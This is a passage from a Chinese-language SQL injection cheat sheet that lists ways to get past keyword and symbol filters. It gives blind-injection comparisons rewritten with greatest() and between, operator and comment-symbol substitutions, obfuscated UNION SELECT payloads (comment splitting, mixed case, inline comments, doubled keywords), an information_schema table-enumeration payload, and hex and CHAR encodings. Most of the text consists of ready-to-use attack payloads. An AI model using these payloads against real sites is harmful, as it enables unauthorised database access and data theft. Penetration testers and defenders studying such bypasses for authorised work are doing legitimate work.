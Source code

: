 - 使用like：
`select ascii(mid(user(),1,1))=80`  #等价于
`select user() like 'r%'`

- 对于limit可以使用offset来绕过：
`select * from news limit 0,1`  # 等价于下面这条SQL语句
`select * from news limit 1 offset 0`

#### 5.比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用greatest()、least()：（前者返回最大值，后者返回最小值）

　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。

　　最常见的一个盲注的sql语句：
`select * from users where id=1 and ascii(substr(database(),0,1))>64`
　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
　　那么上面的这条sql语句可以使用greatest变为如下的子句:
`select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

使用between and：
`between a and b`：返回a，b之间的数据，不包含b。

#### 6.or and xor not绕过：
and=&&  or=||   xor=|   not=!
#### 7.绕过注释符号（#，--(后面跟一个空格））过滤：
id=1' union select 1,2,3||'1
　　最后的or '1闭合查询语句的最后的单引号，或者：
id=1' union select 1,2,'3
#### 8.=绕过：
　　使用like 、rlike 、regexp 或者 使用< 或者 >
#### 9.绕过union，select，where等：
（1）使用注释符绕过：
　　常用注释符：
`//`，`--` , `/**/`, `#`, `--+`, `-- -`,` ;`,`%00`,`--a`
　　用法：
`U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user`
（2）使用大小写绕过：
`id=-1'UnIoN/**/SeLeCT`
（3）内联注释绕过：
`id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#`
（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：
`id=-1'UNIunionONSeLselectECT1,2,3–-`
#### 10.通用绕过（编码）：
　　如URLEncode编码，ASCII,HEX,unicode编码绕过：
`or 1=1`即`%6f%72%20%31%3d%31`，而`Test`也可以为`CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`。
#### 11.等价函数绕过：

hex()、bin() ==> ascii()
